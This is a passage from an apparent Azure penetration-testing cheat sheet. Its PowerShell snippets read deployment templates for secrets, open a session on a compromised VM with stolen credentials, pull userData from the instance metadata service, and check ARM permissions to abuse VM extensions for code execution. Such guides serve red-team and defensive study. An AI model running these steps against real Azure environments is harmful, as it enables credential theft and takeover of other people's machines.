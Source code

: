 Deployment templates can have interesting information

```powershell
Get-AzResourceGroup

# Check if can read deployment
Get-AzResourceGroupDeployment -ResourceGroupName {{ ResourceGroupName resourcegroup}}

# Save deployment
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName {{ ResourceGroupName resourcegroup}}} -DeploymentName {{ DeploymentName deploymentname}}
# look for commandToExecute
```

## VM metadata harvesting

If we have access to a compromised VM in the Azure infrastructure there is a good chance that the machine could have another user's credentials. First we log in into the machine

```powershell
# Connect to jumpvm
$password = ConvertTo-SecureString '{{ Password password }}' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('{{ Username username}}', $password)
$session = New-PSSession -ComputerName {{ IP ip }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $session
```

The metadata service of Azure could contain userdata that can be used by the vm so it might be worth checking it

```powershell
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

## Abusing extensions to compromise vms

If an user has read and write permissions for extensions on a vm it can execute code in such vm. To check this we can use the arm api:

```powershell
# List actions allowed for a resource
$Token = '{{ Access_token eyJ0eXA...}}'
$URI = 'https://management.azure.com/{{ ResourceId subscriptions/{id}/resourceGroups/{rg}/providers/Microsoft.Compute/virtualMachines/{name}/providers/Microsoft.Authorization/permissions }}?api-version=2015-07-01'
$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```
